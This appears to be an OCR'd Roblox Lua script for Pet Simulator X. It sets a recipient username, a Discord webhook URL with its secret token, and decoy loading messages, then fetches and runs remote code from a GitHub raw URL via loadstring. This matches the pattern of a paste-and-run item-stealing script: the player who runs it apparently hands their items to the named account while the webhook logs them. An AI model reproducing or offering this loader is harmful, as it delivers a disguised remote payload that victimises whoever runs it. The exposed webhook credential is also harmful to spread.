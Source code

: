 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271031704895538/JuGr4ImoxdCNMErT9BAtRqYgeaJvaKR9qrB5Oc-Ob0l5ssG6hPY56440fyqKCr3owl1Q"

_G.CustomScriptName = "Loading"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
